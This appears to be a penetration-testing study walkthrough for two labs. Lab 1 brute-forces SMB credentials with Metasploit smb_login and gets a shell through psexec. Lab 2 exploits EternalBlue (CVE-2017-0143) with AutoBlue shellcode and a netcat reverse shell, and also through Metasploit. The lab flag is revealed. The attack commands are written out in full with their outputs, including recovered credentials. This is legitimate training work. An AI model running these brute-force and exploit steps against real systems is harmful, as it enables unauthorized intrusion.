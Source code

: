 # 🔬SMB - PsExec

## Lab 1

> 🔬 [Windows: SMB Server PSexec](https://attackdefense.com/challengedetailsnoauth?cid=1959)
>
> - Target IP: `10.4.16.36`
> - **SMB** exploitation
> - Dictionaries to use:
>   - `/usr/share/metasploit-framework/data/wordlists/common_users.txt`
>   - `/usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`
>   

### Enumeration

```bash
ping 10.4.16.36

nmap -sV -sC 10.4.16.36
```

```
PORT     STATE SERVICE       VERSION
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=EC2AMAZ-408S766
| Not valid before: 2023-03-11T17:43:37
|_Not valid after:  2023-09-10T17:43:37
|_ssl-date: 2023-03-12T17:47:48+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-03-12 23:17:49
|_  start_date: 2023-03-12 23:13:37
```

![](.gitbook/assets/image-20230312184902175.png)

> 📌 SMB version 2.02

### SMB Brute-force

- Use Metasploit [smb_login](https://www.rapid7.com/db/modules/auxiliary/scanner/smb/smb_login) module to brute force SMB
  - The brute force success is based on the users and password used.


```bash
msfconsole
```

```bash
search smb_login
use auxiliary/scanner/smb/smb_login
set RHOSTS 10.4.16.36
set USER_FILE /usr/share/metasploit-framework/data/wordlists/common_users.txt
set PASS_FILE /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set VERBOSE false
exploit
```

![Metasploit smb_login](.gitbook/assets/image-20230312190418458.png)

```bash
[+] 10.4.16.36:445 - 10.4.16.36:445 - Success: '.\sysadmin:samantha'
[+] 10.4.16.36:445 - 10.4.16.36:445 - Success: '.\demo:victoria'
[+] 10.4.16.36:445 - 10.4.16.36:445 - Success: '.\auditor:elizabeth'
[+] 10.4.16.36:445 - 10.4.16.36:445 - Success: '.\administrator:qwertyuiop' Administrator
```

### SMB Exploitation

- Use [PsExec.py](https://github.com/fortra/impacket/blob/master/examples/psexec.py) script for Linux (from the [impacket-scripts](https://www.kali.org/tools/impacket-scripts/))  to get a command prompt on the target machine, with the Administrator account.
  - Using this technique, **no exploit is launched or uploaded on the target system**.
  - It is a legitimate authentication with the actual credentials and the use of an official tool (`psexec`).

```bash
psexec.py Administrator@10.4.16.36 cmd.exe
```

 ![psexec.py](.gitbook/assets/image-20230312191210984.png)

- Alternatively to the Python script, use Metasploit [psexec](https://www.rapid7.com/db/modules/exploit/windows/smb/psexec/) module to get a `meterpreter` session on the target system.
  - This technique will **upload and run a (malicious) payload** on the target. Pay attention to the antivirus!

```bash
msfconsole
search psexec
use exploit/windows/smb/psexec
set RHOSTS 10.4.16.36
set SMBUser Administrator
set SMBPass qwertyuiop
# Make sure the LHOST = your host IP address
exploit
```

![Metasploit psexec](.gitbook/assets/image-20230312192441763.png)

- Find the flag, running `meterpreter` commands

```bash
shell
# will provide a cmd shell on the target machine
cd \
dir
type flag.txt
```

<details>
<summary>Reveal Flag: 🚩</summary>



`e0da81a9cd42b261bc9b90d15f780433`

![image-20230312191432614](.gitbook/assets/image-20230312191432614.png)

</details>

------

## Lab 2 - Eternal Blue (Extra)

> 🔬 **Home Lab**
>
> I have prepared a vulnerable *Windows 2008 R2 Virtual Machine* and connected it to the same network of the Kali virtual machine. On the server, I have activated `File Services` role and created a shared folder with the Administrators Group.
>
> - Host system: `Kali Linux`
> - Target system: `Windown Server 2008 R2` - IP `192.168.31.131` - `Administrator`:`Eternal17010`
> - Exploitation tool: [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010)
> - Vulnerability: [CVE-2017-0143 - EternalBlue](https://nvd.nist.gov/vuln/detail/CVE-2017-0143)

### Enumeration

```bash
nmap -sV -sC 192.168.31.131
```

![nmap -sV -sC 192.168.31.131](.gitbook/assets/image-20230314175805319.png)

```bash
sudo nmap --script smb-vuln-ms17-010 -p445  192.168.31.131
```

![sudo nmap --script smb-vuln-ms17-010 -p445  192.168.31.131](.gitbook/assets/image-20230314181920417.png)

> - 📌 The system is vulnerable to the `CVE-2017-0143`

### Manual Exploitation

- [AutoBlue-MS17-010](https://github.com/3ndG4me/AutoBlue-MS17-010) will be used for the manual exploitation

```bash
cd
mkdir tools
cd /home/kali/tools
sudo git clone https://github.com/3ndG4me/AutoBlue-MS17-010.git 
cd AutoBlue-MS17-010
pip install -r requirements.txt
```

- Generate a shellcode that will be exploited on the target system.

```bash
cd shellcode
chmod +x shell_prep.sh
./shell_prep.sh
# LHOST = Host Kali Linux IP
# LPORT = Port Kali will listen for the reverse shell
```

![./shell_prep.sh](.gitbook/assets/image-20230314183458007.png)

- Set a **`netcat`** listener on the specified port, in another terminal tab

```bash
nc -nvlp 1234
```

- In the `AutoBlue` terminal tab, use the `eternalblue_exploit7.py` to exploit the target from the AutoBlue-MS17-010 directory

```bash
cd ..
chmod +x eternalblue_exploit7.py
python eternalblue_exploit7.py 192.168.31.131 shellcode/sc_x64.bin
```

- Check the `netcat` tab for the reverse shell

![Reverse Shell Success](.gitbook/assets/image-20230314184120008.png)

### Automatic Exploitation

```bash
msfconsole
```

```bash
search eternalblue
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.31.131
exploit
```

![Metasploit ms17_010_eternalblue](.gitbook/assets/image-20230314184602900.png)

------

